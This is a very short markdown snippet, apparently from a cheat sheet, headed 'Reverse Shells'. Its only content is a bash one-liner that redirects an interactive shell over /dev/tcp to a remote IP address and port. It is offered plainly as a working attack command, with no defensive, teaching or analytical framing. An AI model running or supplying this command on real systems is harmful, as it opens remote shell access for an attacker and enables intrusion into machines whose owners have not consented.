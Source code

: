 # Reverse Shells

```bash
# Reverse shell with dev folder
bash -i >& /dev/tcp/192.168.1.7/6666 0>&1
```
